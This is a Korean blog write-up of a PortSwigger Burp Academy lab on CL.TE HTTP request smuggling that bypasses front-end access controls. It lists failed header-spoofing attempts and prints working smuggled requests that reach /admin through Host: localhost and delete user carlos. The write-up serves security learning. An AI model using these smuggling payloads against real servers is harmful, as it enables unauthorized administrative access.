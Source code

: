 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-17 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 - bypass front-end security controls
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. 
- Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- 이 문제부터는 Exploiting에 해당한다.  
- Exploiting 중에서 프론트 엔드 서버에서만 접근 제어를 하는 경우를 생각할 수 있다. (백엔드 서버는 아무런 체크 없이 프론트엔드 서버를 믿고 프론트엔드 서버로 부터 받은 HTTP요청을 처리한다.)
- 프론트 엔드 서버만 잘 속이면 특정 권한만 접근할 수 있는 곳, 예를들면 관리자 기능에 접근하는 요청을 스머글링해서 접근제어를 우회할 수 있다. 
- 예를 들면 다음과 같은 경우다. CL.TE 타입의 스머글링이 가능하다면 관리자 기능에 접근할 수 있다. 

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 프론트엔드서버는 관리자가 아닌경우 `/admin`에 접근하지 못하게 하는 접근 제어를 실시중이다.
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 관리자 패널(`/admin`)에 접근해 carlos 유저를 삭제하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
```

# 도전
1. 다음 페이로드로 스머글링이 되는 것을 확인했다. 다만 `HTTP/1.1 401 Unauthorized`응답이 돌아왔다. 페이지에는 `Admin interface only available to local users`가 쓰여있었다. 

![스머글링 가능 확인](/images/burp-academy-hrs-6-1.png)

2. Host헤더에 localhost를 지정하면 접근할 수 있을 것 같다. 그런데 스머글링할 요청에 Host헤더가 있으면 중복 헤더는 허용하지 않는다는 메세지가 돌아왔다. 

![Host헤더가 있으면 에러](/images/burp-academy-hrs-6-2.png)

3. 호스트헤더 인젝션 취약점에서 배웠던 Host헤더와 비슷한 역할을 하는 다양한 다른 헤더를 시도해봤지만 여전히 401응답이었다. 

```
X-Forwarded-Host: 127.0.0.1
Referer: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-HTTP-Host-Override: 127.0.0.1
Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```

![Host헤더 헷갈리게 하기 공격](/images/burp-academy-hrs-6-3.png)

4. 음... Host 헤더의 앞 뒤에 `\r` 이나 `\0` 등을 넣어서도 해봤지만 안된다. 답을 본다. 

5. 답을 보니 다음과 같이 스머글링 요청에 **Content-Length 헤더와 바디부분이 있는 경우**는 접근이 가능한 것을 알 수 있었다. (CL헤더 값이 0일 때는 안 동작한다.) 그런데 왜 동작하지는지는 모르겠다... CL헤더와 바디값이 추가된 것이 어떤 차이를 만들어낸 걸까?

```http
POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 5

x
```

![답을 보고 스머글링](/images/burp-academy-hrs-6-4.png)

6. 아.. 이유를 알 것 같다. Host헤더의 중복여부를 판별하는 것은 백엔드 서버일 것이다. 

백엔드 서버에서 보면 처리하는 요청이 첫번째 경우(공격 실패한 경우)는 이렇게 생겼을 것이다. (두번째 요청의 POST 부분이 합쳐져서 처리된다.) Host헤더가 두 개있으므로 중복되므로 백엔드 서버는 처리를 거부한다. 

```http
GET /admin HTTP/1.1
Host: localhostPOST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

성공하는 경우는 이렇게 생겼을 것이다. 스머글링 요청에 CL헤더와 바디부분이 있음으로 해서 POST 이후 부분이 HTTP요청의 바디로 처리된 것이다! 😲 Host헤더가 하나만 있으므로 백엔드 서버에서 정상적으로 처리된다. 

```http
GET /admin HTTP/1.1
Host: localhost
Content-Length: 5

POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

7. carlos유저 삭제 요청(`/admin/delete?username=carlos`)을 스머글링요청에 지정해서 보내본다. 두번보내면 302응답(정상처리)을 확인할 수 있다. 

![carlos유저 삭제 요청](/images/burp-academy-hrs-6-5.png)

8. 풀이에 성공했다. 

![풀이 성공](/images/burp-academy-hrs-6-success.png)